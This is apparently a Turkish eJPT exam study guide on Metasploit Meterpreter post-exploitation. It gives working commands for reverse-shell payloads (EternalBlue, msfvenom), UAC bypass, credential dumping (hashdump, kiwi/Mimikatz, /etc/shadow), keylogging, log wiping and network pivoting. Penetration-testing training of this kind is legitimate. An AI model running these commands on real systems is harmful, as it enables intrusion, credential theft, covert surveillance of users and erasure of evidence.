

# 🕵️ Metasploit: Meterpreter — Gelişmiş Oturum Yönetimi & Sızma Sonrası (Post-Exploitation) 🚀

**Meterpreter**, hedefin hafızasına (RAM) gömülen, diskte iz bırakmayan (fileless) ve sadece komut satırıyla sınırlı kalmayıp sisteme tam hükmetmenizi sağlayan gelişmiş bir Metasploit payload'udur. eJPT sınavında bir hedefe sızdıktan sonraki tüm işlemleriniz (şifre çalma, ağda yatayda ilerleme, dosya transferi) Meterpreter komutları üzerinden döner.

---

## 🧠 Sızma Sonrası İş Akışı (Post-Exploitation Flow)

Ezbere gitmemek için, sızdıktan sonra her zaman şu sırayla düşünmeliyiz:



---

## 🚪 Meterpreter Oturumu Nasıl Elde Edilir?

Meterpreter konsoluna ulaşmanın 3 temel yolu vardır:

### 1. Doğrudan Exploit İçinden (Set Payload)
Exploit modülü ayarlarken payload'ı doğrudan meterpreter olarak belirlemek:
```bash
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(...) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(...) > exploit
```

### 2. Harici Zararlı ve Dinleyici ile (Msfvenom & Multi Handler)
Msfvenom ile meterpreter payload'ı içeren bir dosya üretip hedefe çalıştırdıktan sonra multi/handler ile yakalamak:
```bash
# Msfvenom tarafı:
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f exe -o shell.exe

# Multi/Handler tarafı:
msf6 > use exploit/multi/handler
msf6 exploit(handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(handler) > run
```

### 3. Mevcut Düz Shell Oturumunu Yükselterek (`sessions -u`)
Sistemde halihazırda açık olan düz bir shell (CMD veya bash) oturumunu (örn. ID'si 1 olan) otomatik olarak Meterpreter'a yükseltmek:
```bash
# 1 numaralı düz shell oturumunu yükselt:
msf6 > sessions -u 1
[*] Upgrading session 1 to Meterpreter...
[*] Meterpreter session 2 opened
```

---

## 1. 🔍 Durum Analizi: Kimim? Neredeyim? (Information Gathering)

İlk bağlantı açıldığında panikle komut atmak yerine, öncelikle sistemdeki konumumuzu anlamalıyız.

* **`sysinfo`**: Hedef makinenin işletim sistemi sürümünü, bilgisayar adını, sistem dilini ve en önemlisi **sistem mimarisini (x64 mi x86 mı)** gösterir.
  ```bash
  meterpreter > sysinfo
  Computer        : WIN-VICTIM
  OS              : Windows 7 (64-bit)
  Architecture    : x64
  System Language : en_US
  Meterpreter     : x86/windows
  ```
  > [!IMPORTANT]
  > **Kritik Uyumsuzluk Tespiti:**
  > Yukarıdaki çıktıda sistem mimarisi `x64` (64-bit) iken, kullandığımız Meterpreter payload'u `x86` (32-bit). Bu durum ilerleyen adımlarda bazı exploits/yetki yükseltme araçlarının veya Mimikatz (`kiwi`) modülünün çalışmasını engelleyecektir. Derhal 64-bit bir sürece geçmeliyiz (Bkz: Migration).

* **`getuid`**: Sisteme hangi kullanıcı yetkileriyle girdiğimizi gösterir.
  ```bash
  meterpreter > getuid
  Server username: WIN-VICTIM\student
  ```
  * Eğer burada `NT AUTHORITY\SYSTEM` (Windows) veya `root` (Linux) görüyorsanız zaten en yetkili kullanıcısınız demektir. Normal bir kullanıcı ismi görüyorsanız yetki yükseltmeniz gerekir.

* **`getpid`**: Meterpreter payload'umuzun (yani sızma aracımızın/arka kapımızın) kurban makine üzerinde o an hangi işlem numarası (Process ID - PID) altında çalıştığını gösterir.
  ```bash
  meterpreter > getpid
  Current session process ID: 1844
  ```
  > [!TIP]
  > Kendi PID değerimizi bilmek, geçici veya şüpheli bir süreçten daha kalıcı ve kararlı bir sistem sürecine (örn: `explorer.exe`) geçiş (**process migration**) yapmadan önce o anki konumumuzu doğrulamak için kritik önem taşır.

* **`ipconfig` (Windows) / `ifconfig` (Linux)**: Hedefin ağ arayüzlerini listeler.
  ```bash
  meterpreter > ipconfig

  Interface  1
  ============
  Name         : Software Loopback Interface 1
  IPv4 Address : 127.0.0.1
  IPv6 Address : ::1

  Interface 12
  ============
  Name         : Intel(R) PRO/1000 MT Desktop Adapter
  IPv4 Address : 10.10.10.5
  IPv4 Netmask : 255.255.255.0

  Interface 13
  ============
  Name         : Intel(R) PRO/1000 MT Desktop Adapter #2
  IPv4 Address : 10.1.1.5
  IPv4 Netmask : 255.255.255.0
  ```
  > [!IMPORTANT]
  > **eJPT İpucu:** Sınavda hedef makinede birden fazla ağ kartı (NIC) olup olmadığını mutlaka kontrol edin. Eğer makinenin bizim erişemediğimiz ikinci bir ağa (Örn: `10.1.1.0/24`) bacağı varsa, bu makineyi bir köprü (pivot) olarak kullanarak o iç ağa sızabiliriz.

* **`netstat`**: Hedefin aktif bağlantılarını ve dinlediği portları gösterir. Sadece hedef makine içinden erişilebilen (örn: `127.0.0.1:3306` portunda çalışan bir veritabanı gibi) yerel servisleri keşfetmek için birebirdir.
  ```bash
  meterpreter > netstat

  Active Connections
  ==================

    Proto  Local Address          Foreign Address        State        Info
    -----  -------------          ---------------        -----        ----
    tcp    127.0.0.1:3306         0.0.0.0:*              LISTEN       pid:1420 (mysqld.exe)
    tcp    10.10.10.5:445         10.10.10.14:52123      ESTABLISHED  pid:4 (System)
    tcp    10.10.10.5:4444        10.10.10.14:55555      ESTABLISHED  pid:1844 (shell.exe)
  ```
  > [!NOTE]
  > **Yukarıdaki netstat Çıktısının Analizi:**
  > * `127.0.0.1:3306 (mysqld.exe)`: MySQL veritabanının çalıştığını ve sadece localhost (127.0.0.1) dinlediğini gösterir. Bu porta dışarıdan doğrudan tarama yapamaz veya bağlanamazsınız. Sızmak/etkileşime geçmek için port yönlendirme (`portfwd`) yapılması gerekir.
  > * `10.10.10.5:445`: Kali (`10.10.10.14`) makinemizden hedef sisteme SMB portu üzerinden sızıp oturum açtığımızı (`ESTABLISHED`) gösterir.
  > * `10.10.10.5:4444`: Bizim Meterpreter payload'umuzun Kali (`10.10.10.14:55555`) ile kurduğu ters bağlantıyı (reverse tcp session) temsil eder.

* **`arp`**: Hedef makinenin daha önce iletişim kurduğu diğer ağ cihazlarının IP ve MAC adreslerini listeler. Ağda sessizce keşif yapmak için idealdir (aktif ping atmaktan daha güvenlidir).
  ```bash
  meterpreter > arp

  ARP cache
  =========

    IP address      MAC address        Interface
    ----------      -----------        ---------
    10.10.10.1      00:50:56:c0:00:08  12
    10.10.10.14     00:0c:29:ab:cd:ef  12
    10.1.1.12       00:0c:29:fe:dc:ba  13
  ```
  > [!TIP]
  > **Gürültüsüz Keşif (Passive Recon):**
  > ARP tablosundaki `10.1.1.12` IP adresi, makinenin ikinci arayüzü (`Interface 13`) üzerinden haberleştiği iç ağdaki bir makinedir. Ağda aktif bir Nmap veya ping taraması yapmadan, sadece bu tabloyu okuyarak `10.1.1.12` IP'sine sahip canlı bir sistem olduğunu keşfetmiş oluruz. Bu yöntem IDS/IPS sistemlerine takılmadan ağ haritası çıkarmayı sağlar.

---

## 2. 🛡️ Süreç Sabitleme: Göç Etme (Process Migration)

Sızdığımız exploit türüne bağlı olarak, bazen geçici veya çökme eğiliminde olan bir sürecin (Örn: bir web tarayıcı, kalıcı olmayan bir servis veya exploits tetiklendiğinde açılan geçici bir exe) içinde çalışıyor olabiliriz. Hedef kullanıcı o programı kapattığında oturumumuz düşer.

Bağlantıyı kalıcı hale getirmek için Meterpreter oturumumuzu arka planda sürekli çalışan kararlı bir sisteme göç (migrate) ettirmeliyiz.

#### 🛠️ Adım Adım Migration İşlemi:

1. **Çalışan süreçleri listele (`ps`):**
   ```bash
   meterpreter > ps
   ```
   * **Windows için:** En kararlı ve güvenli süreçler kullanıcı yetkisindeyken `explorer.exe` (Masaüstü süreci), sistem (SYSTEM) yetkisindeyken ise `services.exe`, `winlogon.exe` veya `lsass.exe`'dir.
   * **Linux için:** En kararlı ve güvenli süreçler kullanıcı yetkisindeyken `bash` veya `sh` (kullanıcı kabuk süreci), root yetkisindeyken ise `systemd` (PID 1), `sshd` (SSH servisi), `cron` / `crond` veya `rsyslogd` gibi arka planda sürekli çalışan ana sistem servisleridir.

2. **Hedef sürecin PID (Process ID) değerini bul:**
   Örneğin listede `explorer.exe`'nin PID'sinin `1844` olduğunu gördük.

3. **Göç komutunu çalıştır:**
   ```bash
   meterpreter > migrate 1844
   [*] Migrating from 3024 to 1844...
   [*] Migration completed successfully.
   ```

> [!TIP]
> **Otomatik Göç (Auto-Migrate):**
> Süreç ID'sini elle aramak istemiyorsanız, Metasploit'in oturumu otomatik olarak başka bir sürece taşımasını söyleyebilirsiniz:
> `migrate -N explorer.exe` (explorer.exe ismine göre doğrudan göç eder)

---

## 3. 🔑 Yetki Yükseltme ve Ayrıcalık Kazanma (Privilege Escalation)

Sisteme sıradan bir kullanıcı olarak sızdıysak (örn: `getuid` sonucu `WIN-VICTIM\student` ise), en yetkili seviyeye çıkmak için şu teknikleri deneriz:

### A. `getsystem` Komutu (Windows)
Metasploit'in yerleşik otomatik yetki yükseltme mekanizmasıdır. Named Pipe Impersonation gibi 4 farklı teknikle SYSTEM yetkisini almaya çalışır.
```bash
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In-Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
> [!WARNING]
> `getsystem` sadece mevcut kullanıcınızın zaten yerel yönetici (Local Administrator) grubunda olduğu ama işletim sistemi tarafından kısıtlandığı durumlarda veya sistemde bariz yapılandırma hataları varsa işe yarar. Düz bir standart kullanıcıda doğrudan çalışmaz.

### B. UAC Bypass (Kullanıcı Hesabı Denetimi Engeli)
Eğer kullanıcınız yerel yönetici grubunda olmasına rağmen Windows UAC (User Account Control) ekranı yüzünden `getsystem` hata veriyorsa, UAC korumasını aşan exploit modüllerini kullanırız.

```bash
# 1. Oturumu arka plana al
meterpreter > background

# 2. UAC bypass modülü ara
msf6 > search bypassuac

# 3. En popüler ve stabil olan 'fodhelper' modülünü seç
msf6 > use exploit/windows/local/bypassuac_fodhelper

# 4. Parametreleri ayarla (UAC korumalı session ID'sini gir)
msf6 exploit(windows/local/bypassuac_fodhelper) > set SESSION 1
msf6 exploit(windows/local/bypassuac_fodhelper) > set LHOST tun0
msf6 exploit(windows/local/bypassuac_fodhelper) > set LPORT 4445

# 5. Çalıştır (Yeni bir yüksek yetkili session açılacaktır)
msf6 exploit(windows/local/bypassuac_fodhelper) > exploit
...
[*] Meterpreter session 2 opened (10.10.14.2:4445 -> 10.10.10.5:49160)

# 6. Yeni session'a geçip getsystem dene
msf6 > sessions -i 2
meterpreter > getsystem
```

### C. Local Exploit Suggester (Zafiyet Öneri Modülü)
Eğer UAC bypass işe yaramadıysa veya hedef sistemde yerel bir kernel (çekirdek) zafiyeti arıyorsak, sistem yamalarını analiz eden bu efsanevi modülü kullanırız. **eJPT sınavında yetki yükseltme sorularında ilk başvuracağınız yer burasıdır!**

```bash
# 1. Mevcut session'ı arka plana al
meterpreter > background

# 2. Modülü seç
msf6 > use post/multi/recon/local_exploit_suggester

# 3. Analiz edilecek session'ı belirle ve çalıştır
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1
msf6 post(multi/recon/local_exploit_suggester) > run
```

##### 🖥️ Örnek Analiz Çıktısı:
```text
[*] 10.10.10.5 - Collecting local exploits for windows...
[*] 10.10.10.5 - 175 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/cve_2020_0668_service_tracing: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target appears to be vulnerable.
```
* Buradaki yeşil **`[+]`** işaretli exploitleri sırasıyla deneyerek (Örn: `use exploit/windows/local/ms16_032...` -> `set SESSION 1` -> `run`) sisteme `SYSTEM` olarak sızabilirsiniz.

---

## 💾 4. Dosya Sistemi ve Veri Transferi (File Operations)

Meterpreter üzerinden hedef sistemde dosya arayabilir, sızdırabilir veya kendi araçlarımızı sisteme yükleyebiliriz.

* **`download`**: Hedefteki bir dosyayı kendi Kali makinemize indirir.
  ```bash
  meterpreter > download c:\\Users\\Administrator\\Desktop\\parolalar.txt /home/kali/Desktop/
  ```
  > [!NOTE]
  > Windows dosya yollarını belirtirken kaçış karakteri olması için çift ters taksim (`\\`) kullanmayı unutmayın!

* **`upload`**: Kali'deki bir aracımızı (örn: WinPEAS veya nc.exe) hedefe yükler.
  ```bash
  meterpreter > upload /usr/share/peass/winpeas.exe c:\\Windows\\Temp\\
  ```

* **`search`**: Dosya uzantısına veya ismine göre hassas verileri arar.
  ```bash
  # C sürücüsünde ismi "config" geçen tüm dosyaları ara:
  meterpreter > search -f *config*
  
  # c:\Users dizini altında uzantısı .xlsx olan tüm Excel dosyalarını ara:
  meterpreter > search -d c:\\Users\\ -f *.xlsx
  ```

* **`shell`**: Doğrudan hedef işletim sisteminin kendi komut satırına (CMD veya Bash) düşmenizi sağlar.
  ```bash
  meterpreter > shell
  C:\Windows\system32> whoami
  nt authority\system
  
  # Meterpreter'a geri dönmek için:
  C:\Windows\system32> exit
  meterpreter >
  ```

---

## 🔑 5. Kimlik Bilgisi ve Şifre Ele Geçirme (Credential Harvesting)

Hedef sistemde yetki kazandıktan sonra, diğer makinelere sıçrayabilmek için kullanıcı şifrelerini veya hash'lerini ele geçirmemiz gerekir.

### A. Windows SAM Veritabanı Hash'lerini Çekme (`hashdump`)
Eğer `SYSTEM` yetkisindeysek, Windows'un yerel şifre hash'lerini sakladığı SAM veritabanını doğrudan okuyabiliriz:
```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
student:1001:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
```
* **Format:** `KullanıcıAdı : RID : LM_Hash : NTLM_Hash :::`
* **Analiz:** Buradaki `NTLM_Hash` değerlerini (Örn: `8846f7eaee8fb117ad06bdd830b7586c`) kırmak için **CrackStation** gibi çevrimiçi servisleri veya Kali üzerinde `john` / `hashcat` araçlarını kullanabilirsiniz. Ayrıca bu hash'i kırmadan doğrudan **Pass-the-Hash** yöntemiyle başka bir Windows makineye sızmak için de kullanabilirsiniz (Bkz: Konu 6 - PsExec).

### B. Kiwi (Mimikatz) Eklentisi ile RAM'den Parola Çekme
**Kiwi**, ünlü şifre çalma aracı **Mimikatz**'in Metasploit içine entegre edilmiş halidir. LSA bellek alanını okuyarak RAM'de açıkta (plaintext) duran parolaları ve hash'leri çekebilir.

```bash
# 1. Kiwi eklentisini yükle
meterpreter > load kiwi
Success.

# 2. Yardım menüsünü incele (Yeni komutlar eklendi)
meterpreter > help kiwi

# 3. RAM'deki tüm kimlik bilgilerini (parolaları, hashleri) çek
meterpreter > creds_all
```

##### 🖥️ Örnek `creds_all` Çıktısı (Wdigest altında düz metin şifreler):
```text
wdigest credentials
===================

Username       Domain       Password
--------       ------       --------
Administrator  WIN-VICTIM   SuperSecurePassword123!
student        WIN-VICTIM   StudentPass12
```

> [!TIP]
> **Kiwi Alt Komutları:**
> * `lsa_dump_sam`: SAM veritabanını kiwi motoru ile dump eder.
> * `lsa_dump_secrets`: Windows servis hesaplarının veya LSA sırlarının şifrelerini çeker.

### C. Linux Parola Hash'lerini Çekme (hashdump & /etc/shadow)
Linux sistemlerde, Windows'un SAM veritabanı yerine `/etc/shadow` dosyası kullanıcı şifrelerinin hash halini barındırır. Root yetkisi elde edildikten sonra şifre hash'lerini çekebiliriz.

##### 1. Metasploit Modülü ile (`post/linux/gather/hashdump`)
Metasploit'in Linux hashdump modülü hedefe sızıldıktan sonra otomatik olarak tüm kullanıcıları ve hash'lerini çeker:
```bash
# 1. Oturumu arka plana al
meterpreter > background

# 2. Modülü seç ve ayarla
msf6 > use post/linux/gather/hashdump
msf6 post(linux/gather/hashdump) > set SESSION 2
msf6 post(linux/gather/hashdump) > run
```

###### 🖥️ Örnek Başarılı Linux Hashdump Çıktısı:
```text
[*] Running module against 10.10.10.6
[+] root:$6$8c0x9A... (Format: sha512crypt)
[+] user1:$1$abcde123... (Format: md5crypt)
[*] Post module execution completed
```

##### 2. Manuel Yöntem (Düz Shell Üzerinden)
Eğer Meterpreter yerine düz shell oturumuna sahipseniz ve `root` yetkiniz varsa, dosyaları doğrudan okuyabilirsiniz:
```bash
# Düz shell ekranında:
cat /etc/passwd   # Kullanıcı listesini görüntüler
cat /etc/shadow   # Parola hash'lerini görüntüler (Sadece root okuyabilir)
```
Bu çıktıları kopyalayıp Kali makinenizde bir dosyaya (örn: `shadow.txt`) kaydedebilir ve `john --wordlist=/usr/share/wordlists/rockyou.txt shadow.txt` komutuyla kırabilirsiniz.

---


## 🌐 6. Pivotlama ve Ağda Yatay İlerleme (Pivoting & Routing)

eJPT sınavının en klasik senaryolarından biri şudur:
Sızdığımız **Makine A** iki ağa bağlıdır (Dual-homed). Bizim gördüğümüz ağ (`10.10.10.0/24`) ve bizim doğrudan erişemediğimiz iç ağ (`10.1.1.0/24`). Bu iç ağdaki **Makine B**'ye sızmak için Makine A'yı bir zıplama tahtası (pivot) yapmalıyız.

```
+---------------+              +------------------+              +------------------+
|               |  10.10.10.2  |     Makine A     |   10.1.1.5     |     Makine B     |
| Saldırgan (Biz)==============>| (Çift Ağ Kartlı) |--------------> |    (İç Ağdaki    |
|               |  (Session 1) | (Pivot Cihaz)    | (Erişemiyoruz) |     Hedef)       |
+---------------+              +------------------+              +------------------+
```

### 🛠️ Adım Adım Pivotlama Yapılandırması:

#### Adım 1: İç Ağı Tespit Etme
Meterpreter oturumunda ağ kartlarını inceleriz:
```bash
meterpreter > ipconfig
Interface  1
  IP Address  : 10.10.10.5
  Netmask     : 255.255.255.0
Interface  2
  IP Address  : 10.1.1.5
  Netmask     : 255.255.255.0
```
* `10.1.1.0/24` ağını bulduk. Bu ağa doğrudan ping atamayız veya nmap koşturamayız.

#### Adım 2: Metasploit Yönlendirmesi Ekleme (Routing)
Mevcut session üzerinden bu ağa giden paketleri yönlendirmesi için Metasploit'e bir rota (route) tanımlamalıyız.
```bash
# 1. Oturumu arka plana al
meterpreter > background

# 2. Rotayı eklemek için otomatik aracı kullan
msf6 > use post/multi/manage/autoroute
msf6 post(multi/manage/autoroute) > set SESSION 1
msf6 post(multi/manage/autoroute) > run
[*] Running module against 10.10.10.5
[*] Adding a route to 10.1.1.0/255.255.255.0...
[+] Route added successfully!
```
* **Alternatif Manuel Yöntem:** `route add 10.1.1.0 255.255.255.0 1` (1 burada session ID'sidir).

Eklenen rotaları doğrulamak için:
```bash
msf6 > route print
```
Artık Metasploit üzerinden çalıştıracağınız her modül (örn: `auxiliary/scanner/portscan/tcp` veya bir exploit) hedef IP olarak `10.1.1.X` girdiğinizde, paketleri otomatik olarak Session 1 üzerinden iç ağa yönlendirecektir.

---

### 🧦 Dış Araçlar İçin SOCKS Proxy Kurulumu
Metasploit içindeki modüller rota sayesinde iç ağa erişebilir. Ancak Kali makinenizdeki harici araçları (Örn: **Nmap**, **sqlmap**, **dirb** veya tarayıcınız **Firefox**) bu tünelden geçirip iç ağdaki sitelere erişmek istiyorsanız bir SOCKS Proxy kurmalısınız.

#### Adım 1: SOCKS Proxy Sunucusunu Başlatma
```bash
# 1. Modülü seç
msf6 > use auxiliary/server/socks_proxy

# 2. Versiyonu ayarla (Socks 4a veya 5)
msf6 auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1
msf6 auxiliary(server/socks_proxy) > set SRVPORT 1080
msf6 auxiliary(server/socks_proxy) > set VERSION 5

# 3. Arka planda çalıştır
msf6 auxiliary(server/socks_proxy) > run -j
[*] Auxiliary module running as background job 0.
```

#### Adım 2: Kali proxychains Yapılandırması
Kali üzerindeki harici araçların bu 1080 portunu dinleyen proxy sunucusunu kullanabilmesi için `/etc/proxychains4.conf` dosyasının en altına proxy adresimizi eklemeliyiz.
```bash
# Terminalden dosyayı düzenle:
nano /etc/proxychains4.conf
```
Dosyanın en altındaki `[ProxyList]` kısmını şu şekilde düzenleyin (diğer her şeyi yorum satırı `#` yapın):
```text
[ProxyList]
socks5  127.0.0.1 1080
```

#### Adım 3: Araçları Proxychains ile Çalıştırma
Artık herhangi bir terminal komutunun başına `proxychains` ekleyerek o komutu iç ağa tünelleyebilirsiniz:

* **Harici Nmap Taraması (Çok Önemli İpucu!):**
  ```bash
  proxychains nmap -sT -Pn -p 80,445,3389 10.1.1.12
  ```
  > [!CAUTION]
  > **Nmap Parametre Kuralları (Ezberleme, Sebebini Öğren!):**
  > Proxychains kullanırken nmap taramasında **`-sT`** (TCP Connect Scan) ve **`-Pn`** (No Ping) parametrelerini kullanmak **ZORUNDASINIZ**.
  > * **Neden `-sT`?** Çünkü SOCKS proxy sunucuları raw socket (yarım açık SYN paketleri `-sS`) gönderemez, sadece tam el sıkışmalı TCP bağlantıları taşıyabilir.
  > * **Neden `-Pn`?** Çünkü SOCKS proxyler ICMP (Ping) paketlerini yönlendiremez. Ping kapalı olmazsa Nmap hedefin çevrimdışı olduğunu düşünüp taramayı durdurur.

---

## 🛠️ 7. Diğer Sızma Sonrası Oyuncakları

* **`keyscan_start` / `keyscan_dump` / `keyscan_stop`**:
  Hedef kullanıcının klavyesinden yazdığı her şeyi (keylogger) arka planda kaydeder.
  ```bash
  meterpreter > keyscan_start
  # Bir süre bekle...
  meterpreter > keyscan_dump
  # Kullanıcının yazdığı şifreleri ekranda gör.
  meterpreter > keyscan_stop
  ```

* **`screenshot`**: Hedefin o anki ekran görüntüsünü alıp Kali makinenize `.jpeg` olarak kaydeder. (Kullanıcı GUI ekranındaysa aktiftir).

* **`webcam_snap`**: Hedef bilgisayara bağlı bir web kamerası varsa fotoğraf çeker.

* **`clearev`**: Windows Olay Günlüklerini (Application, System, Security logs) temizleyerek izlerinizi siler. (Sınav ortamlarında puan kırılmaması için gerekli değildir ancak gerçek sızma testlerinde önemlidir).

---
👤 **GitHub:** [onurcapn](https://github.com/onurcapn)
